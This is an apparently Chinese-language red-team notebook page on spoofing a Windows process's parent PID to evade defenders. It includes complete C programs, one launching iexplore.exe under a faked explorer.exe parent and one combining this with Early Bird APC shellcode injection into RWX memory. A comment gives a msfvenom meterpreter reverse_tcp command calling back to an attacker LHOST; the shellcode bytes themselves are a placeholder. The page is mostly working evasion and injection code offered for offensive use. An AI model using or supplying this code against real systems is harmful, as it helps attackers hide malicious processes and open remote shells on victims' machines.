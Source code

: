 ```yaml
---
description: fake-PPID
---
```


# 伪装PPID规避检测

## UAC创建进程的过程的疑惑

> 在触发UAC时，操作系统会创建一个名为consent.exe的进程，该进程通过白名单和用户选择来确定是否提升权限。 请求进程将要提升权限的进程的commandline和程序路径通过LPC\(Local Procedure Call\)接口传递给appinfo的RAiluanchAdminProcess函数，该函数首先会验证传入程序是否在白名单内同时判断是否弹出UAC窗口，这个UAC框会创建新的安全桌面，屏蔽之前的界面。同时这个UAC框进程是SYSTEM权限进程，其他普通进程也无法和其进行通信交互。用户确认之后，会调用CreateProcessAsUser函数以管理员权限启动请求的进程。

  
  
触发UAC创建进程的过程中,我们可以知道实际上高权限的进程是由consent.exe进程创建的，但实际上父进程并非指向consent.exe任就是UAC发起者的进程ID，那么我们是否可以自己指定父进程，增加判断成本从而使蓝队脑阔疼。

![](../.gitbook/assets/image%20%2820%29.png)

![&#x7236;&#x8FDB;&#x7A0B;&#x5E76;&#x975E;consent.exe](../.gitbook/assets/image%20%2847%29.png)

## CreateProcessAsUser函数

最终创建函数的是由consent.exe调用的CreateProcessAsUser函数，那我们猜测是否是consent.exe调用时指定了某些参数，导致PPID的更换。

* 在官方文档中给出了如下原型:

```text
BOOL CreateProcessAsUserA(
  HANDLE                hToken,
  LPCSTR                lpApplicationName,
  LPSTR                 lpCommandLine,
  LPSECURITY_ATTRIBUTES lpProcessAttributes,
  LPSECURITY_ATTRIBUTES lpThreadAttributes,
  BOOL                  bInheritHandles,
  DWORD                 dwCreationFlags,
  LPVOID                lpEnvironment,
  LPCSTR                lpCurrentDirectory,
  LPSTARTUPINFOA        lpStartupInfo,
  LPPROCESS_INFORMATION lpProcessInformation
);
```

查询官方文档得知，如果在dwCreationFlags中EXTENDED\_STARTUPINFO\_PRESENT标准，那么lpStartupInfo传入的就会是一个名为STARTUPINFOEXA的结构体，而这个结构体能指定父进程的相关信息，最终传入的PPID会被写入到新进程\_eprocess结构体的InheritedFromUniqueProcessId位置。

```text
typedef struct _STARTUPINFOEXA {
  STARTUPINFOA                 StartupInfo;
  LPPROC_THREAD_ATTRIBUTE_LIST lpAttributeList;
} STARTUPINFOEXA, *LPSTARTUPINFOEXA;
```

根据查询的文档,CreateProcess函数同样也支持STARTUPINFOEXA结构体。

## 伪装PPID创建iexplore.exe

* 寻找explorer.exe的pid

```text
DWORD FindExplorerPID() {
    HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    PROCESSENTRY32 process = { 0 };
    process.dwSize = sizeof(process);

    if (Process32First(snapshot, &process)) {
        do {
            if (!wcscmp(process.szExeFile, L"explorer.exe"))
                break;
        } while (Process32Next(snapshot, &process));
    }

    CloseHandle(snapshot);
    return process.th32ProcessID;
}
```

```text
int main() {

    STARTUPINFOEXA siex = {0};
    SIZE_T Size;
    siex.StartupInfo.cb = sizeof(STARTUPINFOEXA);

    HANDLE hFake = OpenProcess(PROCESS_ALL_ACCESS, false, FindExplorerPID());

    InitializeProcThreadAttributeList(NULL, 1, 0, &Size);
    siex.lpAttributeList = (LPPROC_THREAD_ATTRIBUTE_LIST)HeapAlloc(GetProcessHeap(), 0, Size);
    InitializeProcThreadAttributeList(siex.lpAttributeList, 1, 0, &Size);

    UpdateProcThreadAttribute(siex.lpAttributeList, 0, PROC_THREAD_ATTRIBUTE_PARENT_PROCESS, &hFake, sizeof(HANDLE), NULL, NULL);
    

    CreateProcessA("C:\\Program Files\\internet explorer\\iexplore.exe", NULL, NULL, NULL, TRUE, EXTENDED_STARTUPINFO_PRESENT, NULL, NULL, (LPSTARTUPINFOA)&siex, NULL);
    //PS:这里有个小坑，需要开启继承句柄
    return 0;
}
```

![](../.gitbook/assets/image%20%2834%29.png)

## 与进程注入技术EARLYBIRD搭配使用

```text
#include <stdio.h>
#include <windows.h>
#include <TlHelp32.h>


DWORD FindExplorerPID() {
    HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    PROCESSENTRY32 process = { 0 };
    process.dwSize = sizeof(process);

    if (Process32First(snapshot, &process)) {
        do {
            if (!wcscmp(process.szExeFile, L"explorer.exe"))
                break;
        } while (Process32Next(snapshot, &process));
    }

    CloseHandle(snapshot);
    return process.th32ProcessID;
}

int main() {

    //msfvenom -p windows/x64/meterpreter/reverse_tcp -e x64/xor_dynamic -i 14 LHOST=192.168.0.109 EXITFUNC=thread -f
    unsigned char shellcode[] = ("XXX");


    STARTUPINFOEXA siex;
    PROCESS_INFORMATION piex;
    SIZE_T sizeT;
    siex.StartupInfo.cb = sizeof(STARTUPINFOEXA);

    HANDLE expHandle = OpenProcess(PROCESS_ALL_ACCESS, false, FindExplorerPID());

    InitializeProcThreadAttributeList(NULL, 1, 0, &sizeT);
    siex.lpAttributeList = (LPPROC_THREAD_ATTRIBUTE_LIST)HeapAlloc(GetProcessHeap(), 0, sizeT);
    InitializeProcThreadAttributeList(siex.lpAttributeList, 1, 0, &sizeT);
    UpdateProcThreadAttribute(siex.lpAttributeList, 0, PROC_THREAD_ATTRIBUTE_PARENT_PROCESS, &expHandle, sizeof(HANDLE), NULL, NULL);
    

    CreateProcessA("C:\\Program Files\\internet explorer\\iexplore.exe", NULL, NULL, NULL, TRUE, CREATE_SUSPENDED | CREATE_NO_WINDOW | EXTENDED_STARTUPINFO_PRESENT, NULL, NULL, (LPSTARTUPINFOA)&siex, &piex);

    LPVOID lpBaseAddress = (LPVOID)VirtualAllocEx(piex.hProcess, NULL, 0x1000, MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    WriteProcessMemory(piex.hProcess, lpBaseAddress, (LPVOID)shellcode, sizeof(shellcode), NULL);
    QueueUserAPC((PAPCFUNC)lpBaseAddress, piex.hThread, NULL);
    ResumeThread(piex.hThread);
    CloseHandle(piex.hThread);

    return 0;
}
```

![](../.gitbook/assets/image%20%2848%29.png)

![](../.gitbook/assets/image%20%2843%29.png)

![](../.gitbook/assets/image%20%2841%29.png)

* github:[https://github.com/idiotc4t/FakePPID](https://github.com/idiotc4t/FakePPID)

## LINKS

{% embed url="https://www.securitynewspaper.com/2018/04/17/new-early-bird-code-injection-technique/" %}

{% embed url="https://docs.microsoft.com/zh-cn/windows/win32/api" %}



